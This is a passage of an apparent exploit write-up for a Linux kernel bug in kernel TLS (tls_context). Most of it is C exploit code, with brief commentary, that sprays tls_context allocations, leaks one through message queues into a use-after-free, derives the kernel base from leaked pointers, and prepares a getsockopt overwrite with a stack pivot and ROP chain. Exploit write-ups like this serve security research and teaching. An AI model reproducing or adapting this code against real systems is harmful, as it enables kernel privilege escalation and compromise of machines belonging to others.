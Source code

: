 ```c
struct sockaddr_in server;
inet_aton("127.0.0.1", &server.sin_addr);
server.sin_port = htons(9999);
server.sin_family = AF_INET;
if (connect(fd, (struct sockaddr*)&server, sizeof(server))) {
    perror("connect");
    return ERR;
}
tls_fds[i] = fd;
```
We connect each new socket to a local server.

```c
int fd = tls_fds[i];
// struct tls_context allocation in kmalloc-512
if (setsockopt(fd, SOL_TCP, TCP_ULP, "tls", sizeof("tls"))) {
    perror("setsockopt(fd, SOL_TCP, TCP_ULP, \"tls\"");
    printf("fd: %d\n", fd);
    return ERR_UNFIN(i);
};
```
Then when we are actually ready (after all the preceding exploit stages) we upgrade these connected sockets and in doing so, allocate a `tls_context` for each one.

### Leaking `tls_context`
```c 
static inline err_t leak_tls_contexts(struct manager *mgr)
{
    char *leak = (char *)mgr->leak;
    uint64_t *store = mgr->msq_ids;
    IF_ERR_RET(leak_msg(DEAD_LIST_PATTERN, store, TOTAL_MSGS, leak, MSG_SIZE))
    print_leak(leak);
    return SUCC;
} 
```
Now that one of our messages contains the `tls_context` we can attempt to find the `DEAD_LIST_PATTERN` in some message whose ID is stored in `mgr->msq_ids` and whose contents will be output to `mgr->leak`. Importantly, receiving a message will free it. So now we have a **`tls_context` Use-After-Free** (lol). 

### Overwriting `tls_context`
```c
static inline err_t prepare_tls_overwrite(struct manager *mgr)
{
#define KHEAP_PTR_OFF (200)
#define RO_PTR_OFF (224)
#define LIST_OFF (0x98)
#define BASE_OFF (0x180b660)
#define MSGSEG_OFF (4000)    
    /* Extract pointers and wipe the data, ready for spray. */
    char *leak = (char *)mgr->leak + MSGSEG_OFF;
    uint64_t tls_context = *(uint64_t*)&leak[KHEAP_PTR_OFF] - LIST_OFF;
    uint64_t kernel_base = *(uint64_t*)&leak[RO_PTR_OFF] - BASE_OFF;
    printf("[+] Current tls_context @ %lx\n", tls_context);
    printf("[+] Kernel base @ %lx\n", kernel_base);
    memset((char *)mgr->leak, 0, MSG_SIZE);

#define GETSOCKOPT_OFF (40)
#define SK_PROTO_OFF (136)
    /* Prepare sk_proto overwrite, getsockopt() overwrite,
     * stack pivot, and ROP chain contents. */
    char *spray = (char *)mgr->spray;
    prepare_rop(&spray[8], kernel_base);
    *(uint64_t*)&spray[GETSOCKOPT_OFF] = kernel_base + STACK_PIVOT_OFF;;
```